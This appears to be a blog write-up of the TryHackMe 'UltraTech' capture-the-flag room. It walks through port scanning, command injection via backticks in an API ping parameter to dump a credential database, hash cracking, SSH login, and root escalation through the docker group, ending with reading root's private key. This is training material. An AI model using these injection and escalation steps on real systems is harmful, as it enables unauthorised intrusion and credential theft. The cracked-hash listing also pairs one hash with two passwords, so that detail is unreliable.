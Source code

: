 ```yaml
---
layout: post
title: "UltraTech — Writeup"
date: 2023-06-06 
categories: [Tryhackme,Linux Machines]
tags: [tryhackme, security, pentest, enumeration, web ultratech1]
link: https://tryhackme.com/room/ultratech1
image: /assets/img/Posts/ut.png
---
```


## `INTRODUCTION`

UltraTech is a medium level rated room that gives a perspective of security practices. It explores enumeration, subdomain discovery and Privilege escalation. Let's begin.
## `Initial recon - Port scanning`

We start off with an nmap scan to identify open ports and the services they are running.

```shell
nmap -sC -sV -p- 10.10.105.45 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 10:01 EAT
Nmap scan report for 10.10.105.45
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2611.45 seconds

```
The scan answers some of the queistions asked

Which software is using the port 8081?
```shell
8081/tcp  open  http    Node.js Express framework
```

Which other non-standard port is used?
```shell
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Which software using this port?
```shell
Apache 
```

The scan answers the above questions. As always, always explore the target.
upon visiting `http://10.10.105.45:8081/` we find it uses an api 
```shell
UltraTech API v0.1.3
```
Now it gets interesing.

We have an `ftp` service on `port 21`. Let's check that out. Always check the port for any anopnymous login. 
```shell
ftp anonymous@10.10.105.45
Connected to 10.10.105.45.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```
It didnt go through.
Lets visit port 31331 `(http://10.10.105.45:31331/)`

![website](/assets/img/Posts/3131.png)



Which GNU/Linux distribution seems to be used?
```shell
Ubuntu
```
The software using the port 8081 is a REST api, how many of its routes are used by the web application?
To answer this we launch burpsuite to capture the traffic.
After intercepting the request we forward the request it terminates after hitting two endpoints.

```shell
http://10.10.134.175:8081/favicon.ico
http://10.10.134.175:8081/
```
The answer it 2 routes.

### `Directory discovery`
Start a directory scan using ffuf
```shell
ffuf -u http://10.10.105.45:31331/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Back to the scan and something is cooking
```shell
    FUZZ: js
    FUZZ: javascript
    FUZZ: server-status
    FUZZ: images
```
The directory, http://10.10.105.45:31331/js has some interesting endpoints.

![website](/assets/img/Posts/dir.png)


### `Vulnerable parameter discovery`
```shell 
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error')
```
This line `const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}` is interesting. We can query the API by altering the request.
We try some commands
```shell
http://10.10.103.195:8081/ping?ip=ls

Output : ping: ls: Temporary failure in name resolution
```
We get an error but towards the right direction
Let's try aother command. We add `` characters to the command
```shell
http://10.10.103.195:8081/ping?ip=`ls`
```

This time we get a file
```shell
ping: utech.db.sqlite: Name or service not known

```
We can execute an rce using the ping command to fetch data.
```shell
http://10.10.103.195:8081/ping?ip=`cat utech.db.sqlite`
```

The output is some hash
Mr00tf357a0c52799563c7c7b76c1e7543a32
Madmin0d0ea5111e3c1def594c1684e3b9be84

Now we crack these hashes to establish if they are credentials.

We will use an online cracking tool https://crackstation.net/ for this task
0d0ea5111e3c1def594c1684e3b9be84 - n100906
0d0ea5111e3c1def594c1684e3b9be84 - mrsheafy

As we recall, there was a port 22 that was running a ssh service. We can checkif this credentials work.

```shell
 ssh r00t@10.10.105.45
r00t@10.10.105.45's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

r00t@ultratech-prod:~$ whoami
r00t

```
We are in!

Have a look around.

```shell
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Jun  6 06:17 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Jun  6 06:17 .cache
drwx------ 3 r00t r00t 4096 Jun  6 06:17 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

User r00t doesn't have root privileges.
We'll have to change that.

We check the groups that are in the machine

```shell
r00t@ultratech-prod:~$ groups
r00t docker
```
This makes this interesting. We have a docker container here and basically the run with root as the default user. More info here https://juggernaut-sec.com/docker-breakout-lpe/
 We head to gtfobins and find a command that can upgrade the shell.

 ```shell
 docker run -v /:/mnt --rm -it bash chroot /mnt sh
 ```
 `WE ARE ROOT`

 ```shell
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
# cd root
```
We can then locate the id_rsa
```shell
ls -la .ssh
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
```
There you have it.
HAPPY LEARNING! ♥

